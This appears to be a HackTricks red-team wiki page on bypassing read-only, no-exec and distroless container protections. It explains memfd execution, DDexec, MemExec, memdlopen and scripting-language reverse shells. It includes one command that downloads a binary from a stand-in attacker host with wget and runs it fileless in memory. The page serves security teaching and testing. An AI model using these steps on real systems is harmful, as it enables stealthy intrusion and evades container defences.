 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)



<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

It's more and more common to find linux machines mounted with **read-only (ro) file system protection**, specially in containers. This is because to run a container with ro file system is as easy as setting **`readOnlyRootFilesystem: true`** in the `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
  name: alpine-pod
spec:
  containers:
  - name: alpine
    image: alpine
    securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

However, even if the file system is mounted as ro, **`/dev/shm`** will still be writable, so it's fake we cannot write anything in the disk. However, this folder will be **mounted with no-exec protection**, so if you download a binary here you **won't be able to execute it**.

{% hint style="warning" %}
From a red team perspective, this makes **complicated to download and execute** binaries that aren't in the system already (like backdoors o enumerators like `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Note that I mentioned binaries, you can **execute any script** as long as the interpreter is inside the machine, like a **shell script** if `sh` is present or a **python** **script** if `python` is installed.

However, this isn't just enough to execute your binary backdoor or other binary tools you might need to run.

## Memory Bypasses

If you want to execute a binary but the file system isn't allowing that, the best way to do so is by **executing it from memory**, as the **protections doesn't apply in there**.

### FD + exec syscall bypass

If you have some powerful script engines inside the machine, such as **Python**, **Perl**, or **Ruby** you could download the binary to execute from memory, store it in a memory file descriptor (`create_memfd` syscall), which isn't going to be protected by those protections and then call a **`exec` syscall** indicating the **fd as the file to execute**.

For this you can easily use the project [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). You can pass it a binary and it will generate a script in the indicated language with the **binary compressed and b64 encoded** with the instructions to **decode and decompress it** in a **fd** created calling `create_memfd` syscall and a call to the **exec** syscall to run it.

{% hint style="warning" %}
This doesn't work in other scripting languages like PHP or Node because they don't have any d**efault way to call raw syscalls** from a script, so it's not possible to call `create_memfd` to create the **memory fd** to store the binary.

Moreover, creating a **regular fd** with a file in `/dev/shm` won't work, as you won't be allowed to run it because the **no-exec protection** will apply.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is a technique that allows you to **modify the memory your own process** by overwriting its **`/proc/self/mem`**.

Therefore, **controlling the assembly code** that is being executed by the process, you can write a **shellcode** and "mutate" the process to **execute any arbitrary code**.

{% hint style="success" %}
**DDexec / EverythingExec** will allow you to load and **execute** your own **shellcode** or **any binary** from **memory**.
{% endhint %}

```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```

For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) is the natural next step of DDexec. It's a **DDexec shellcode demonised**, so every time that you want to **run a different binary** you don't need to relaunch DDexec, you can just run memexec shellcode via the DDexec technique and then **communicate with this deamon to pass new binaries to load and run**.

You can find an example on how to use **memexec to execute binaries from a PHP reverse shell** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

With a similar purpose to DDexec, [**memdlopen**](https://github.com/arget13/memdlopen) technique allows an **easier way to load binaries** in memory to later execute them. It could allow even to load binaries with dependencies.

## Distroless Bypass

### What is distroless

Distroless containers contain only the **bare minimum components necessary to run a specific application or service**, such as libraries and runtime dependencies, but exclude larger components like a package manager, shell, or system utilities.

The goal of distroless containers is to **reduce the attack surface of containers by eliminating unnecessary components** and minimising the number of vulnerabilities that can be exploited.

### Reverse Shell

In a distroless container you might **not even find `sh` or `bash`** to get a regular shell. You won't also find binaries such as `ls`, `whoami`, `id`... everything that you usually run in a system.

{% hint style="warning" %}
Therefore, you **won't** be able to get a **reverse shell** or **enumerate** the system as you usually do.
{% endhint %}

However, if the compromised container is running for example a flask web, then python is installed, and therefore you can grab a **Python reverse shell**. If it's running node, you can grab a Node rev shell, and the same with mostly any **scripting language**.

{% hint style="success" %}
Using the scripting language you could **enumerate the system** using the language capabilities.
{% endhint %}

If there is **no `read-only/no-exec`** protections you could abuse your reverse shell to **write in the file system your binaries** and **execute** them.

{% hint style="success" %}
However, in this kind of containers these protections will usually exist, but you could use the **previous memory execution techniques to bypass them**.
{% endhint %}

You can find **examples** on how to **exploit some RCE vulnerabilities** to get scripting languages **reverse shells** and execute binaries from memory in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)


